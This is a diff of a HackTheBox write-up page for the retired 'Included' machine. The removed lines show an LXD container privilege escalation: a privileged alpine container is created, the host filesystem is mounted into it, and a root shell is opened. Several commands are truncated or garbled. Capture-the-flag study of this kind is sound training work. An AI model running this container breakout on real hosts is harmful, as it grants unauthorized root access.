

Before and after one commit to rlong2/HackTheBox, a Markdown page: Retired Machines/Included/06 - lxc.md, the part around one of its changes. Shown at 84% size. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/Retired Machines/Included/06 - lxc.md
+++ b/Retired Machines/Included/06 - lxc.md
@@ -103,6 +104,7 @@ tmpfs                   100.0K         0    100.0K   0% /mnt/root/var/lib/lxd/sh
 tmpfs                   100.0K         0    100.0K   0% /mnt/root/var/lib/lxd/devlxd
 tmpfs                   100.0K         0    100.0K   0% /dev/.lxd-mounts
 tmpfs                   199.3M     40.0K    199.3M   0% /run
+
 ~ # ls -l /mnt/root/
 bin/            initrd.img      mnt/            snap/           vmlinuz
 boot/           initrd.img.old  opt/            srv/            vmlinuz.old
@@ -110,56 +112,5 @@ cdrom/          lib/            proc/           sys/
 dev/            lib64/          root/           tmp/
 etc/            lost+found/     run/            usr/
 home/           media/          sbin/           var/
-~ # ls -l /mnt/root/root/root.txt
--r--------    1 root     root            33 Mar  9  2020 /mnt/root/root/root.txt
-~ # md5sum /mnt/root/root/root.txt
-7ef07ff4703c59f103bdb88833f50666  /mnt/root/root/root.txt
 
 ```
-## Import the alpine image
-```
-mike@included:/tmp/ignore$ lxc image import ./alpine-v3.13-x86_64-20210218_01tar.gz --alias alpine
-```
-## Run the image
-```
-mike@included:/tmp/ignore$ lxc init alpine r00t -c security.privileged=true
-Creating r00t
-```
-
-## Mount the root file system to the image
-```
-mike@included:/tmp/ignore$ g
-Device mydev added to r00t
-```
-
-## Start the container
-```
-mike@included:/tmp/ignore$ lxc start r00t
-```
-
-## Get a root shell :)
-```
-mike@included:/tmp/ignore$ lxc exec r00t /bin/sh
-~ # id
-uid=0(root) gid=0(root)
-
-```
-
-Not sure where the rest of the filesystem is...
-```
-/home # find / -name user.txt
-/th=/mnt/root/home/mike/user.txt
-find: /sys/kernel/debug: Permission denied
-/home # find / -name root.txt
-/th=/mnt/root/root/root.txt
-
-```
-
-# TODO: Fix line wrappings!
-The comman for lxd is so long that the line wraps in the terminal and doesn't execute correctly!
-
-```
-mike@included:/var/lib/tftpboot$ stty cols 120
-mike@included:/tmp/ignore$ export PS1='\$'
-$
-```
````
Also changed, not shown: other parts of Retired Machines/Included/06 - lxc.md (+2 -1 lines).
